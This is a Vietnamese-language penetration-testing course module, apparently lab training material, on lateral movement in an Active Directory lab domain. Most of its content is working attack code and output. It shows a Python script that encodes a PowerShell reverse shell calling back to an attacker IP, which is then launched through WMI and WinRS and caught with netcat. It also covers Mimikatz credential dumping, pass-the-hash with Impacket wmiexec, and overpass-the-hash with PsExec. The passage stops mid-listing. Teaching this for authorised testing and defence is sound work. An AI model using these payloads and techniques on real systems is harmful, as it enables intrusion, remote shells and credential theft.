

# Lateral Movement in Active Directory

# Di chuyển ngang trong Active Directory

---

Trong Learning Module này, chúng ta sẽ bao gồm các Learning Unit sau:

- Các kỹ thuật Lateral Movement trong Active Directory
- Persistence trong Active Directory

Trong các Module trước, chúng ta đã xác định được các mục tiêu có giá trị cao có thể dẫn đến việc xâm phạm Active Directory và tìm ra các workstation hoặc server mà các tài khoản domain giá trị cao này đang đăng nhập. Chúng ta đã thu thập các password hash, sau đó khôi phục và tận dụng các ticket hiện có cho xác thực Kerberos.

Bây giờ, chúng ta sẽ sử dụng các kỹ thuật lateral movement để xâm phạm các máy mà những user domain giá trị cao này đang đăng nhập.

Một bước tiếp theo hợp lý trong phương pháp tiếp cận của chúng ta là crack các password hash đã thu thập được và xác thực tới một máy bằng clear text password để giành quyền truy cập trái phép. Tuy nhiên, việc crack mật khẩu tốn thời gian và có thể thất bại. Ngoài ra, Kerberos và NTLM không sử dụng trực tiếp clear text password, và các công cụ native của Microsoft không hỗ trợ xác thực bằng password hash.

Trong Module này, chúng ta sẽ khám phá các kỹ thuật lateral movement khác nhau cho phép chúng ta xác thực tới một hệ thống và giành được khả năng thực thi mã bằng cách sử dụng hash của user hoặc một Kerberos ticket.

---

# 1. Các kỹ thuật Lateral Movement trong Active Directory

---

Learning Unit này bao gồm các Learning Objective sau:

- Hiểu các kỹ thuật lateral movement sử dụng WMI, WinRS và WinRM
- Lạm dụng PsExec cho lateral movement
- Tìm hiểu Pass The Hash và Overpass The Hash như các kỹ thuật lateral movement
- Lạm dụng DCOM để di chuyển ngang

Lateral Movement là một tactic bao gồm nhiều kỹ thuật khác nhau, nhằm giành thêm quyền truy cập bên trong mạng mục tiêu. Như được mô tả trong MITRE Framework, các kỹ thuật này có thể sử dụng tài khoản hợp lệ hiện tại hoặc tái sử dụng các thông tin xác thực như password hash, Kerberos ticket và application access token thu được từ các giai đoạn tấn công trước đó.

Trong Learning Unit này, chúng ta sẽ khám phá nhiều kỹ thuật khác nhau liên quan đến cả các tài khoản hợp lệ và các thông tin xác thực đã được thu thập trước đó.

Ngoài ra, cần lưu ý rằng kiến thức chúng ta đã đạt được về việc enumeration các domain Active Directory vẫn giữ nguyên giá trị trong giai đoạn tấn công lateral movement, vì chúng ta có thể đã giành được quyền truy cập vào các mạng trước đây chưa được phát hiện.

---

## 1.1. WMI và WinRM

---

Kỹ thuật lateral movement đầu tiên mà chúng ta sẽ đề cập dựa trên Windows Management Instrumentation (WMI), đây là một tính năng hướng đối tượng giúp hỗ trợ tự động hóa tác vụ.

WMI có khả năng tạo process thông qua phương thức Create của lớp Win32_Process. Nó giao tiếp thông qua Remote Procedure Calls (RPC) qua cổng 135 để truy cập từ xa và sử dụng một cổng có dải cao hơn (19152–65535) cho dữ liệu phiên.

Để minh họa kỹ thuật tấn công này, trước tiên chúng ta sẽ trình bày ngắn gọn tiện ích wmic, vốn gần đây đã bị deprecated, sau đó chúng ta sẽ tìm hiểu cách thực hiện cùng một cuộc tấn công WMI thông qua PowerShell.

Để tạo một process trên mục tiêu từ xa thông qua WMI, chúng ta cần thông tin xác thực của một thành viên thuộc nhóm Administrators cục bộ, tài khoản này cũng có thể là một domain user. Trong các ví dụ sau, chúng ta sẽ thực hiện các cuộc tấn công với user jen, người vừa là domain user vừa là thành viên của nhóm Local Administrator trên các máy mục tiêu.

Chúng ta đã từng gặp các hạn chế UAC remote đối với các máy không join domain trong Module Password Attacks. Tuy nhiên, loại hạn chế này không áp dụng cho domain user, nghĩa là chúng ta có thể tận dụng đầy đủ đặc quyền khi di chuyển ngang với các kỹ thuật được trình bày trong Learning Unit này.

Theo lịch sử, wmic đã bị lạm dụng cho lateral movement thông qua dòng lệnh bằng cách chỉ định IP mục tiêu sau tham số `/node:`, sau đó là user với tham số `/user:`, và cuối cùng là mật khẩu với tham số `/password:`.

Trong ví dụ này, chúng ta sẽ yêu cầu wmic khởi chạy một instance của máy tính “calc” bằng các từ khóa `process call create`. Cần lưu ý rằng máy mà chúng ta đang tấn công là một server có hostname là Files04. Chúng ta đang cố gắng di chuyển ngang từ máy hiện tại của mình sang server mới này.

Chúng ta có thể kiểm tra lệnh bằng cách kết nối với tư cách jeff trên CLIENT74.

```
C:\Users\jeff>wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 752;
        ReturnValue = 0;
};
```

                       *Listing 1 – Chạy tiện ích wmic để sinh process trên một hệ thống từ xa.*

Job WMI trả về PID của process vừa được tạo và giá trị trả về là “0”, nghĩa là process đã được tạo thành công.

Nếu chúng ta đăng nhập vào máy đó và theo dõi Task Manager, chúng ta sẽ thấy process win32calc.exe xuất hiện với user là jen.

Các process và service hệ thống luôn chạy trong session 01 như một phần của cơ chế session isolation, vốn được giới thiệu từ Windows Vista. Do WMI Provider Host chạy dưới dạng một system service, các process mới được tạo thông qua WMI cũng được sinh ra trong session 0.

Việc chuyển kỹ thuật tấn công này sang cú pháp PowerShell yêu cầu thêm một vài chi tiết.

Đầu tiên, chúng ta cần tạo một đối tượng PSCredential để lưu trữ username và password của phiên làm việc.

Để làm điều đó, trước tiên chúng ta sẽ lưu username và password vào các biến. Sau đó, chúng ta sẽ bảo mật mật khẩu bằng cmdlet ConvertTo-SecureString. Cuối cùng, chúng ta sẽ tạo một đối tượng PSCredential mới với biến username và đối tượng secureString.

```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

                                     *Listing 2 – Tạo đối tượng PSCredential trong PowerShell*

Bây giờ khi đã có đối tượng PSCredential, chúng ta cần tạo một Common Information Model (CIM) thông qua cmdlet New-CimSession.

Để làm điều đó, trước tiên chúng ta sẽ chỉ định DCOM là giao thức cho phiên WMI với cmdlet `New-CimSessionOption` ở dòng đầu tiên. Ở dòng thứ hai, chúng ta sẽ tạo phiên mới bằng `New-CimSession` đối với IP mục tiêu, sử dụng `-ComputerName` và cung cấp đối tượng `PSCredential` (`-Credential $credential`) cùng với các tùy chọn phiên (`-SessionOption $Options`). Cuối cùng, chúng ta sẽ định nghĩa ‘calc’ là payload sẽ được WMI thực thi.

```
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'calc';
```

                                                        *Listing 3 – Tạo một CimSession mới*

Bước cuối cùng, chúng ta cần liên kết tất cả các tham số đã cấu hình trước đó bằng cách gọi cmdlet `Invoke-CimMethod` và cung cấp `Win32_Process` cho `ClassName` và `Create` cho `MethodName`. Để gửi tham số, chúng ta gói chúng trong `@{CommandLine = $Command}`.

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

                                           *Listing 4 – Gọi phiên WMI thông qua PowerShell*

Để mô phỏng kỹ thuật này, chúng ta có thể kết nối tới CLIENT74 với tư cách jeff và nhập đoạn code trên vào PowerShell prompt. (Không phải toàn bộ code đều được hiển thị bên dưới.)

```
PS C:\Users\jeff> $username = 'jen';
...
PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3712           0 192.168.50.73
```

                                               *Listing 5 – Thực thi payload WMI PowerShell.*

Việc kiểm tra các process đang hoạt động trên máy mục tiêu cho thấy một process calculator mới đã được khởi chạy, xác nhận rằng cuộc tấn công của chúng ta đã thành công.



                                                         *Figure 1: Inspecting The Task Manager*

Để nâng cao hơn nữa kỹ thuật của mình, hãy thay thế payload trước đó bằng một reverse shell hoàn chỉnh được viết bằng PowerShell.

Đầu tiên, chúng ta sẽ encode reverse shell PowerShell để không cần phải escape các ký tự đặc biệt khi chèn nó làm payload WMI.

Đoạn mã Python sau sẽ encode reverse shell PowerShell sang base64, được chứa trong biến payload, sau đó in kết quả ra standard output.

Việc xem xét toàn bộ payload PowerShell nằm ngoài phạm vi của Module này.

Chúng ta cần thay thế IP và port được highlight bằng IP và port của máy tấn công Kali của chúng ta.

```python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

                                             *Listing 6 – Encode payload PowerShell WMI.*

Sau khi lưu script Python, chúng ta có thể chạy nó và lấy output để sử dụng sau.

```
kali@kali:~$ python3 encode.py
powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAU...
OwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

                                                *Listing 7 – Chạy script Python encode base64*

Sau khi thiết lập Netcat listener trên cổng 443 trên máy Kali, chúng ta có thể chuyển sang CLIENT74 và chạy script PowerShell WMI với payload reverse shell đã được encode base64 vừa tạo.

```
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> $Options = New-CimSessionOption -Protocol DCOM
PS C:\Users\jeff> $Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options

PS C:\Users\jeff> $Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';

PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3948           0 192.168.50.73
```

                                   *Listing 8 – Thực thi payload WMI với reverse shell base64*

Từ output trong Listing 8, chúng ta có thể kết luận rằng việc tạo process đã thành công và chuyển sang listener để xác nhận cuối cùng.

```
kali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 49855

PS C:\windows\system32\driverstore\filerepository\ntprint.inf_amd64_075615bee6f80a8d\amd64> hostname
FILES04

PS C:\windows\system32\driverstore\filerepository\ntprint.inf_amd64_075615bee6f80a8d\amd64> whoami
corp\jen
```

                                            *Listing 9 – Reverse shell WMI với payload base64*

Tuyệt vời! Chúng ta thực sự đã di chuyển ngang thành công và giành được quyền với tư cách domain user jen trên một server nội bộ bằng cách lạm dụng các tính năng của WMI.

Là một phương pháp thay thế cho WMI trong quản lý từ xa, WinRM có thể được sử dụng để quản lý host từ xa. WinRM là phiên bản của Microsoft cho giao thức WS-Management và nó trao đổi các thông điệp XML qua HTTP và HTTPS. Nó sử dụng cổng TCP 5986 cho lưu lượng HTTPS được mã hóa và cổng 5985 cho HTTP thuần.

Ngoài triển khai trong PowerShell, mà chúng ta sẽ đề cập sau trong phần này, WinRM còn được triển khai trong nhiều tiện ích tích hợp sẵn, chẳng hạn như winrs (Windows Remote Shell).

Để WinRS hoạt động, domain user cần là thành viên của nhóm Administrators hoặc Remote Management Users trên host mục tiêu.

Tiện ích winrs có thể được gọi bằng cách chỉ định host mục tiêu thông qua tham số `-r:`, username với `-u:` và password với `-p:`. Tham số cuối cùng, chúng ta muốn chỉ định các lệnh sẽ được thực thi trên host từ xa. Ví dụ, chúng ta muốn chạy các lệnh hostname và whoami để chứng minh rằng chúng đang chạy trên mục tiêu từ xa.

Vì winrs chỉ hoạt động cho domain user, chúng ta sẽ thực thi toàn bộ lệnh sau khi đã đăng nhập với tư cách jeff trên CLIENT74 và cung cấp thông tin xác thực của jen làm tham số dòng lệnh.

```
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
FILES04
corp\jen
```

                                             *Listing 10 – Thực thi lệnh từ xa thông qua WinRS*

Output xác nhận rằng chúng ta thực sự đã thực thi các lệnh từ xa trên FILES04.

Để chuyển kỹ thuật này thành một kịch bản lateral movement hoàn chỉnh, chúng ta chỉ cần thay thế các lệnh trước đó bằng reverse shell đã được encode base64 mà chúng ta đã viết trước đó.

```
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

                                      *Listing 11 – Chạy payload reverse shell thông qua WinRS*

Sau khi chạy lệnh trên và đã thiết lập Netcat listener, chúng ta sẽ nhận được một reverse shell từ FILES04.

```
ali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 65107
PS C:\Users\jen> hostname
FILES04
PS C:\Users\jen> whoami
corp\jen
```

                                        *Listing 12 – Xác minh nguồn gốc reverse shell WinRS*

PowerShell cũng có các khả năng WinRM tích hợp sẵn được gọi là PowerShell remoting, có thể được gọi thông qua cmdlet New-PSSession bằng cách cung cấp IP của host mục tiêu cùng với thông tin xác thực dưới dạng đối tượng credential tương tự như những gì chúng ta đã làm trước đó.

```
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> New-PSSession -ComputerName 192.168.50.73 -Credential $credential

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available
```

                             *Listing 13 – Thiết lập PowerShell Remote Session thông qua WinRM*

Để tương tác với session ID 1 mà chúng ta đã tạo, chúng ta có thể gọi cmdlet Enter-PSSession theo sau là session ID.

```
PS C:\Users\jeff> Enter-PSSession 1
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
corp\jen

[192.168.50.73]: PS C:\Users\jen\Documents> hostname
FILES04
```

                                                 *Listing 14 – Kiểm tra PowerShell Remoting session*

Một lần nữa, chúng ta đã chứng minh rằng phiên làm việc này bắt nguồn từ host mục tiêu thông qua một kỹ thuật lateral movement khác.

---

## 1.2. PsExec

---

PsExec là một công cụ rất linh hoạt thuộc bộ SysInternals do Mark Russinovich phát triển. Nó được thiết kế để thay thế các ứng dụng kiểu telnet và cung cấp khả năng thực thi process từ xa trên các hệ thống khác thông qua một console tương tác.

Có thể lạm dụng công cụ này cho lateral movement, nhưng cần thỏa mãn ba điều kiện. Thứ nhất, user xác thực tới máy mục tiêu phải là thành viên của nhóm Administrators cục bộ. Thứ hai, share ADMIN$ phải khả dụng, và thứ ba, File and Printer Sharing phải được bật. May mắn cho chúng ta, hai yêu cầu sau đã được đáp ứng sẵn vì đây là các thiết lập mặc định trên các hệ thống Windows Server hiện đại.

Để thực thi lệnh từ xa, PsExec thực hiện các tác vụ sau:

- Ghi psexesvc.exe vào thư mục C:\Windows
- Tạo và khởi chạy một service trên host từ xa
- Chạy chương trình/lệnh được yêu cầu như một child process của psexesvc.exe

Trong kịch bản này, giả sử chúng ta đã có quyền truy cập RDP với tư cách offsec local administrator trên CLIENT74 vì chúng ta đã phát hiện clear-text password của tài khoản này trên FILES04.

Mặc dù PsExec không được cài đặt mặc định trên Windows, chúng ta có thể dễ dàng chuyển nó sang máy đã bị compromise. Để thuận tiện cho việc sử dụng, toàn bộ bộ SysInternals đã có sẵn trên CLIENT74. Sau khi đăng nhập với tư cách user offsec trên CLIENT74, chúng ta có thể chạy phiên bản 64-bit của PsExec từ C:\Tools\SysinternalsSuite.

Để bắt đầu một phiên tương tác trên host từ xa, chúng ta cần gọi PsExec64.exe với tham số -i, theo sau là hostname mục tiêu được đặt trước bởi hai dấu gạch chéo ngược. Sau đó, chúng ta chỉ định `domain\username` là `corp\jen` cho tham số `-u` và `Nexus123!` là mật khẩu cho tham số `-p`. Cuối cùng, chúng ta thêm process muốn thực thi từ xa. Ở đây, chúng ta sẽ sử dụng command shell.

```
PS C:\Tools\SysinternalsSuite> ./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>hostname
FILES04

C:\Windows\system32>whoami
corp\jen
```

                *Listing 15 – Giành được một Interactive Shell trên hệ thống mục tiêu với PsExec*

Listing 15 xác nhận rằng chúng ta đã giành được một interactive shell trực tiếp trên hệ thống mục tiêu với tư cách domain account jen có quyền local administrator, mà không cần sử dụng máy Kali để bắt reverse shell.

---

## 1.3. Pass the Hash

---

Kỹ thuật Pass the Hash (PtH) cho phép kẻ tấn công xác thực tới một hệ thống hoặc dịch vụ từ xa bằng cách sử dụng NTLM hash của user thay vì mật khẩu clear-text của user đó. Lưu ý rằng kỹ thuật này chỉ hoạt động đối với các server hoặc dịch vụ sử dụng xác thực NTLM, chứ không áp dụng cho các server hoặc dịch vụ sử dụng xác thực Kerberos. Kỹ thuật lateral movement con này cũng được ánh xạ trong MITRE Framework dưới kỹ thuật tổng quát Use Alternate Authentication Material.

Nhiều công cụ và framework của bên thứ ba sử dụng PtH để cho phép user vừa xác thực vừa giành được khả năng thực thi mã, bao gồm:

- PsExec từ Metasploit
- Passing-the-hash toolkit
- Impacket

Cơ chế hoạt động phía sau các công cụ này nhìn chung tương tự nhau, trong đó kẻ tấn công kết nối tới nạn nhân thông qua giao thức Server Message Block (SMB) và thực hiện xác thực bằng NTLM hash.

Hầu hết các công cụ được xây dựng để lạm dụng PtH có thể được sử dụng để khởi chạy một Windows service (ví dụ như cmd.exe hoặc một instance của PowerShell) và giao tiếp với service đó thông qua Named Pipes. Việc này được thực hiện bằng cách sử dụng Service Control Manager API.

Trừ khi chúng ta muốn giành được remote code execution, PtH không cần phải tạo một Windows service cho các mục đích sử dụng khác, chẳng hạn như truy cập vào một SMB share.

Tương tự như PsExec, PtH có ba điều kiện tiên quyết cần được đáp ứng.

Thứ nhất, nó yêu cầu có kết nối SMB xuyên qua firewall (thường là cổng 445), và thứ hai, tính năng Windows File and Printer Sharing phải được bật. Các yêu cầu này rất phổ biến trong các môi trường enterprise nội bộ.

Kỹ thuật lateral movement này cũng yêu cầu admin share có tên là ADMIN$ phải khả dụng. Để thiết lập kết nối tới share này, kẻ tấn công phải cung cấp thông tin xác thực hợp lệ với quyền local administrative. Nói cách khác, kiểu lateral movement này thường yêu cầu quyền local administrator.

Lưu ý rằng PtH sử dụng NTLM hash một cách hợp lệ. Tuy nhiên, lỗ hổng nằm ở chỗ chúng ta đã giành được quyền truy cập trái phép vào password hash của một local administrator.

Để minh họa điều này, chúng ta có thể sử dụng wmiexec từ bộ Impacket trên máy Kali cục bộ của mình để tấn công tài khoản local administrator trên FILES04. Chúng ta sẽ gọi lệnh bằng cách truyền vào hash của local Administrator mà chúng ta đã thu thập được trong một Module trước đó, sau đó chỉ định username cùng với IP mục tiêu.

```
kali@kali:~$ /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>hostname
FILES04

C:\>whoami
files04\administrator
```

                                           *Listing 16 – Pass the hash bằng Impacket wmiexec*

Trong trường hợp này, chúng ta đã sử dụng xác thực NTLM để giành được khả năng thực thi mã trên Windows Server 2022 trực tiếp từ Kali, chỉ với NTLM hash của user.

Nếu mục tiêu nằm phía sau một mạng chỉ có thể truy cập được thông qua điểm truy cập ban đầu đã bị compromise, chúng ta hoàn toàn có thể thực hiện cùng cuộc tấn công này bằng cách pivot và proxy thông qua host đầu tiên, như đã học trong các Module trước.

Phương pháp này hoạt động đối với các tài khoản Active Directory domain cũng như tài khoản local administrator tích hợp sẵn. Tuy nhiên, do bản cập nhật bảo mật năm 2014, kỹ thuật này không thể được sử dụng để xác thực với tư cách bất kỳ tài khoản local admin nào khác.

---

## 1.4. Overpass the Hash

---

Với kỹ thuật overpass the hash, chúng ta có thể “over” lạm dụng NTLM hash của một user để giành được một Kerberos Ticket Granting Ticket (TGT) đầy đủ. Sau đó, chúng ta có thể sử dụng TGT này để lấy một Ticket Granting Service (TGS).

Để minh họa, giả sử chúng ta đã compromise một workstation (hoặc server) mà jen đã từng xác thực. Chúng ta cũng giả định rằng máy này hiện đang cache thông tin xác thực của jen (và do đó là NTLM password hash của họ).

Để mô phỏng thông tin xác thực đã được cache này, chúng ta sẽ đăng nhập vào máy Windows 10 CLIENT76 với tư cách jeff và chạy một process với tư cách jen, thao tác này sẽ kích hoạt việc xác thực.

Cách đơn giản nhất để làm điều này là nhấp chuột phải vào biểu tượng Notepad trên desktop, sau đó giữ Shift và nhấp chuột trái vào “show more options” trong popup, từ đó hiển thị các tùy chọn như trong Figure 2.


                                                                 *Figure 2: Enabling extra options*

Tại đây, chúng ta nhập jen làm username cùng với mật khẩu tương ứng, thao tác này sẽ khởi chạy Notepad trong ngữ cảnh của user đó. Sau khi xác thực thành công, thông tin xác thực của jen sẽ được cache trên máy này.

Chúng ta có thể xác minh điều này bằng cách mở một Administrative shell và sử dụng mimikatz với lệnh sekurlsa::logonpasswords. Lệnh này sẽ dump các password hash đã được cache.

```
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords

...
Authentication Id : 0 ; 1142030 (00000000:00116d0e)
Session           : Interactive from 0
User Name         : jen
Domain            : CORP
Logon Server      : DC1
Logon Time        : 2/27/2023 7:43:20 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1124
        msv :
         [00000003] Primary
         * Username : jen
         * Domain   : CORP
         * NTLM     : 369def79d8372408bf6e93364cc93075
         * SHA1     : faf35992ad0df4fc418af543e5f4cb08210830d4
         * DPAPI    : ed6686fedb60840cd49b5286a7c08fa4
        tspkg :
        wdigest :
         * Username : jen
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : jen
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
...
```

                                                  *Listing 17 – Dump password hash của ‘jen’*

Output này cho thấy thông tin xác thực đã được cache của jen dưới session của chính jen. Nó bao gồm NTLM hash, thứ mà chúng ta sẽ tận dụng để thực hiện overpass the hash.

Bản chất của kỹ thuật lateral movement overpass the hash là chuyển NTLM hash thành một Kerberos ticket và tránh việc sử dụng xác thực NTLM. Một cách đơn giản để làm điều này là sử dụng lệnh `sekurlsa::pth` của Mimikatz.

Lệnh này yêu cầu một vài tham số và tạo ra một process PowerShell mới trong ngữ cảnh của jen. PowerShell prompt mới này cho phép chúng ta lấy Kerberos ticket mà không cần thực hiện xác thực NTLM qua mạng, điều này khiến cuộc tấn công này khác với pass-the-hash truyền thống.

Ở tham số đầu tiên, chúng ta chỉ định `/user:` và `/domain:`, lần lượt đặt là jen và corp.com. Sau đó, chúng ta chỉ định NTLM hash với `/ntlm:`, và cuối cùng sử dụng `/run:` để chỉ định process sẽ được tạo (trong trường hợp này là PowerShell).

```
mimikatz # sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell 
user    : jen
domain  : corp.com
program : powershell
impers. : no
NTLM    : 369def79d8372408bf6e93364cc93075
  |  PID  8716
  |  TID  8348
  |  LSA Process is now R/W
  |  LUID 0 ; 16534348 (00000000:00fc4b4c)
  \_ msv1_0   - data copy @ 000001F3D5C69330 : OK !
  \_ kerberos - data copy @ 000001F3D5D366C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000001F3D5C63B68 (32) -> null
```

                             *Listing 18 – Tạo process với NTLM password hash của user khác*

Tại thời điểm này, chúng ta đã có một phiên PowerShell mới cho phép thực thi lệnh trong ngữ cảnh của jen.

Ở thời điểm này, nếu chạy lệnh whoami trong phiên PowerShell mới tạo, kết quả sẽ hiển thị danh tính của jeff thay vì jen. Điều này có thể gây nhầm lẫn, nhưng đây là hành vi dự kiến của tiện ích whoami, vì nó chỉ kiểm tra token của process hiện tại và không kiểm tra bất kỳ Kerberos ticket nào đã được import.

Hãy liệt kê các Kerberos ticket đã được cache bằng klist.

```
PS C:\Windows\system32> klist

Current LogonId is 0:0x1583ae

Cached Tickets: (0)

```

                                                          *Listing 19 – Liệt kê Kerberos tickets*

Chưa có Kerberos ticket nào được cache, nhưng điều này là bình thường vì jen chưa thực hiện đăng nhập tương tác. Hãy tạo một TGT bằng cách xác thực tới một network share trên server files04 với net use.

```
PS C:\Windows\system32> net use \\files04
The command completed successfully.
```

                                       *Listing 20 – Map một network share trên server từ xa*

Output cho thấy lệnh net use đã thực thi thành công.

Bây giờ, hãy sử dụng lại lệnh klist để liệt kê các Kerberos ticket vừa được yêu cầu.

```
PS C:\Windows\system32> klist

Current LogonId is 0:0x17239e

Cached Tickets: (2)

#0>     Client: jen @ CORP.COM
        Server: krbtgt/CORP.COM @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: DC1.corp.com

#1>     Client: jen @ CORP.COM
        Server: cifs/files04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC1.corp.com
```

                                                         *Listing 21 – Liệt kê Kerberos tickets*

Output chứa các Kerberos ticket, bao gồm TGT và một TGS cho dịch vụ Common Internet File System (CIFS).

Chúng ta biết ticket #0 là một TGT vì server là krbtgt.

Trong ví dụ này, chúng ta sử dụng net use một cách tùy ý, nhưng chúng ta hoàn toàn có thể dùng bất kỳ lệnh nào yêu cầu quyền domain và từ đó sẽ tạo ra một TGS.

Giờ đây, chúng ta đã chuyển NTLM hash thành một Kerberos TGT, cho phép sử dụng bất kỳ công cụ nào dựa trên xác thực Kerberos (thay vì NTLM). Ở đây, chúng ta sẽ sử dụng ứng dụng PsExec chính thức của Microsoft.

PsExec có thể chạy một lệnh từ xa nhưng không chấp nhận password hash. Vì chúng ta đã tạo được Kerberos ticket và đang hoạt động trong ngữ cảnh của jen trong phiên PowerShell, chúng ta có thể tái sử dụng TGT để giành được khả năng thực thi mã trên host files04.

Hãy thử điều đó ngay bây giờ bằng cách chạy .\PsExec.exe để khởi chạy cmd từ xa trên máy files04 với tư cách jen.

```
PS C:\Windows\system32> cd C:\tools\SysinternalsSuite\
PS C:\tools\SysinternalsSuite> .\PsExec.exe \\files04 cmd

PsExec v2.4 - Execute processes remotely
